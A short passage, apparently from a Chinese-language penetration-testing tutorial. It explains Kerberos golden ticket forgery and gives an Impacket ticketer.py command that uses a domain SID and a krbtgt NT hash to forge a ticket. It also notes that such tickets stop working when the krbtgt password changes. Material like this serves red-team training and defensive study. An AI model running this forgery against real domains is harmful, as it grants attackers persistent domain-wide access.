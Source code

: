 注意金票会随着 krbtgt 密码的修改而失效

在银票的命令基础上去掉-spn，将 nthash 修改为 krbtgt 的 hash 即可。

```bash
py -3 .\ticketer.py -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[![](assets/1702372846-4f396c4b3645ab8a76fdad2a68f210d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123703-a49dcc44-6bb1-1.png)

